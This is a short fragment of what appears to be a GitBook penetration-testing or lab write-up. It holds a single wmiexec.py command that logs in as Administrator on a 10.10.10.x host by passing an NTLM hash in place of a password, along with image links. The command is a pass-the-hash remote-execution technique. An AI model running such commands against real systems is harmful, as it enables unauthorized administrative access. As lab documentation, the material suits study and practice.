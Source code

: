 {% code overflow="wrap" %}
```bash
wmiexec.py WORKGROUP/Administrator@10.10.10.125 -hashes :2dcefe78334b42c0ce483b8e1b2886ab
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1017_vmware_cr35yYFFQI.png" alt=""><figcaption></figcaption></figure>
